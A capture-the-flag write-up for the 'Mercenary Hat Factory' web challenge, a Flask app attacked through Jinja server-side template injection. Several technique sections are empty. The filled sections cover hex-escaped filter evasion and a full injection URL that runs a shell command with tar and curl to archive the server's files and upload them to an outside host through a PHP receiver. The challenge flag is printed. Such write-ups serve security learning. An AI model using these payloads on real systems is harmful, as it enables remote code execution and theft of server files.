




# Mercenary Hat Factory

> "Mmph Mmmmph Mmph Mmmph!"
>
> Translation: Come and visit our hat factory!



| Asset      | Note                                                            |
|------------|-----------------------------------------------------------------|
| Author     | Milkrop                                                         |
| Category   | Web Exploitation                                                |
| URL        | `http://challs.xmas.htsp.ro:11005`                              |
| Code       | 💾 [Cached][2] 💾 [Original Google Drive][1]                    |
| Dump       | 💾 [All Files][3]                                               |
| Flag       | `X-MAS{W3lc0m3_70_7h3_h4t_f4ct0ry__w3ve_g0t_unusu4l_h4ts_90d81c091da}` |
| Movie      | 📼 [unusual_flag.mp4](files/unusual_flag.mp4)

## Analysis

You're given a URL and upon loading you'll see a pretty blank page:



 However, the Python source code was also given and if you poke around you'll
 see it's a Flask application with a few routes:

| Route        | Description                                                   |
|--------------|---------------------------------------------------------------|
| `/`          | Mostly blank page                                             |
| `/register`  | Create a user account                                         |
| `/login`     | Login with your account                                       |
| `/authorize` | A logged in user can become an authorized user                |
| `/makehat`   | Finally create some damn hats!                                |


### JWT Spoofing

### Authorizing


### Server Side Template Injection (SSTI)

### Evading SSTI Filters

You'll want to use a tool like [CyberChef][4] to make it easy to create escaped
text to evade the filters. You can mostly encode everything to escaped hex chars
but the only ones you *really* need are:

| Character        | Escaped                                                   |
|------------------|-----------------------------------------------------------|
| ` ` (space)      | `\x20`                                                    |
| `+` (plus)       | `\x2b`                                                    |
| `@` (at)         | `\x40`                                                    |
| `_` (underscore) | `\x5f`                                                    |

You can also turn certain filtered words into escaped hex sequences, so instead
of `config` you would use:

```
\x63\x6f\x6e\x66\x69\x67
```

You can also use the `attr` filter to get a value when the symbol you need is
only available as a string:

```
x.blacklisted
```

Would become:

```
x|attr('\x62\x6c\x61\x63\x6b\x6c\x69\x73\x74\x65\x64')
```

### Introspection

Once you get Python code injection you'll be able to see there are easily 850
or more classes available to be toyed with:
([full list](list_of_classes.txt))




### Shell Command Injection



### Exfiltration

Given we have arbitrary code access at this point we can easily create an
archive of all the files and upload them to a remote server. The organizers
provided access to the `server.py` file, but there are many templates and of
course the flag itself that need to be uploaded to a remote server.

First we setup a PHP script running on a remote server such as `example.com`:

```
<?php

file_put_contents("/tmp/payload.txt", file_get_contents($_FILES['f']['tmp_name']));
```

Next we want to run a command like this:

```
tar czf /tmp/x
curl -F f=@/tmp/x https://example.com/upload.php
```

However, because of the various server side template injection (SSTI) filters
this needs some fixing and becomes:

```
http://challs.xmas.htsp.ro:11005/makehat?hatName={{(((%27%27|attr(%27\x5f\x5fclass\x5f\x5f%27))|attr(%27\x5f\x5fbase\x5f\x5f%27))|attr(%27\x5f\x5fsubclasses\x5f\x5f%27))().pop(215)(%27tar\x20czf\x20/tmp/x\x20.;curl\x20-F\x20f=\x40/tmp/x\x20https://example.com/upload.php%27,shell=1)}}
```

[1]: https://drive.google.com/file/d/1xHCkY2b5xrjnWg6iToqTyvOVviCo3tnx/view?usp=sharing
[2]: files/server.py
[3]: files/
[4]: https://gchq.github.io/CyberChef/
